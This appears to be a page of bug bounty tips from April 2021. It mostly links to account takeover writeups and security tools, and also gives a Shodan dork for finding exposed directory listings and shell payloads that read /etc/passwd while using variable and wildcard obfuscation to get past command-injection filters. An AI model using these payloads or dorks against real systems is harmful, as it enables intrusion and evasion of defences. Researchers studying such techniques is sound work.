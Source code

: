 # Bug Bounty Tips - April 2021

# 📅 01-Apr-2021
## Exploiting Account TakeOver => CSRF + CORS
- https://nirajmodi51.medium.com/missing-cors-leads-to-complete-account-takeover-1ed4b53bf9f2

## MindAPI 
Organize your API security assessment by using MindAPI. It's free and open for community collaboration.
- https://github.com/dsopas/MindAPI

## Bug Bytes 116
- https://blog.intigriti.com/2021/03/31/bug-bytes-116-new-oauth-attacks-hacking-shopify-with-a-single-dot-netmask-ssrf/

# 📅 01-Apr-2021
## Facebook Account Takeover writeups
- https://ysamm.com/?p=654
- https://ysamm.com/?p=646

## Dangerous Functions | Binary Exploitation 0x01
- https://youtu.be/EJtUW2AklVs

# 📅 05-Apr-2021
## Shodan Dorks
Everyone knows how to find Directory Listing Using Google Dorks Right?
Dork - intitle:"Index of /"

We can do the same with Shodan to find even more Directory Listings!

Dork- `http://ssl.cert.subject.CN:"*target.*" 200 http.title:"Index of /"`

## Obfuscation Random characters

### Payloads

```sh
$aaaaaaa/bin$bbbbbb/cat$ccccccc $dddddddd/etc$eeeeeee/passwd$ggggggg

$sdijchkd/???$sdjhskdjh/??t$skdjfnskdj $sdofhsdhjs/???$osdihdhsdj/??ss??$skdjhsiudf
```
### Proof of Concept
![img](https://pbs.twimg.com/media/EyMKkZWVEAAInk9?format=png&name=small)
![img](https://pbs.twimg.com/media/EyMKkZXUYAIaclN?format=png&name=large)
***Source: https://twitter.com/sec715/status/1378957974790492160?s=20***
